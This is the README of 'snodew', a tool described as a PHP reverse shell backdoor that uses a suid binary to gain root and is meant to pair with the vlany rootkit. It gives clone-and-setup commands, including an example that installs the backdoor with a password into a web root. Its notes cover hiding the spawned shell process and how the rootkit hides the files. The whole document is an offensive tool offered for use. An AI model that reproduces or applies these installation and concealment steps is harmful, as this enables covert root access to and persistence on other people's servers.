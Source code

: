 # snodew
*snodew is a PHP reverse shell backdoor which uses a small suid binary to escalate privileges on connection*</br></br>snodew is made mainly to work alongside [vlany](https://github.com/mempodippy/vlany) but can also be setup as a regular root backdoor

## usage
```
git clone https://github.com/mempodippy/snodew.git
cd snodew/
./setup.sh [install dir] [password] [hidden extended attribute] [magic gid]
```

### example usage for regular (non-vlany infected) systems
```
cd /tmp
git clone https://github.com/mempodippy/snodew.git
cd snodew/
./setup.sh /var/www/html/blog sexlovegod X 0 # 'X' and '0' since extended attribute doesn't really matter,
                                             # and our suid binary will set our gid to 0
```
<img src="http://i.imgur.com/YneuIpp.png"/></br>
*Result of successful setup*

<img src="http://i.imgur.com/AwlnKt6.png"/></br>
*Result after following instructions given on our new page*

## notes
 * requires a web service to be running on the box (along with php support for the service package)
 * sh process spawned from service user is visible, though this could be subverted by checking /proc/self/cmdline and hiding the process if it contains the hidden suid bin
 * if not being used alongside some kind of rootkit, everything you do is visible
 * it's only a reverse shell
 * when vlany is installed, simply su'ing to the service user won't allow them to see the files. vlany checks to see if an apache environment variable is also exported before giving access to the file, and does the same for nginx so that - by default - the file can only be accessed from a browser or from an owner shell
  * exporting the apache environment variable that vlany checks, after su'ing to the service user will circumvent this
 * suid possibly disabled
 * not using 'exit' to exit the shell will leave the process spawned by the service in process lists (ps, top etc)
